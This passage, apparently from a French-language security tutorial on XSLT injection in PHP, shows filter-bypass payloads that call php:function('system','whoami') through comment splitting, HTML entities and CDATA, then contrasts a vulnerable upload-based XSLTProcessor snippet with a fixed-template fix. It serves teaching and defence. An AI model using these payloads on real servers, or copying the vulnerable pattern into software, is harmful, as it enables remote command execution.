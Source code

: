 ```xml
<xsl:value-of select="php:function('sys<!-- bypass -->tem','whoami')"/>
```

2. **Unicode/HTML entities**

```xml
<xsl:value-of select="php:function('&#115;ystem','whoami')"/>
```

3. **CDATA sections**

```xml
<xsl:variable name="cmd"><![CDATA[system('whoami')]]></xsl:variable>
```

***

### 6️⃣ CONTRE-MESURES ET RECOMMANDATIONS

#### 🛡️ Défenses côté développement

**1. Ne jamais accepter de XSLT non fiable**

❌ **Vulnérable :**

```php
<?php
$xml = new DOMDocument();
$xml->load($_FILES['xml']['tmp_name']);

$xsl = new DOMDocument();
$xsl->load($_FILES['xsl']['tmp_name']); // ← DANGEREUX !

$proc = new XSLTProcessor();
$proc->importStyleSheet($xsl);
echo $proc->transformToXML($xml);
?>
```

✅ **Sécurisé :**

```php
<?php
$xml = new DOMDocument();
$xml->load($_FILES['xml']['tmp_name']);

// Utiliser seulement des XSLT prédéfinis
$xsl = new DOMDocument();
$xsl->load('/var/www/templates/safe_template.xsl'); // ← Template sûr

$proc = new XSLTProcessor();
$proc->importStyleSheet($xsl);
echo $proc->transformToXML($xml);
?>
```

***
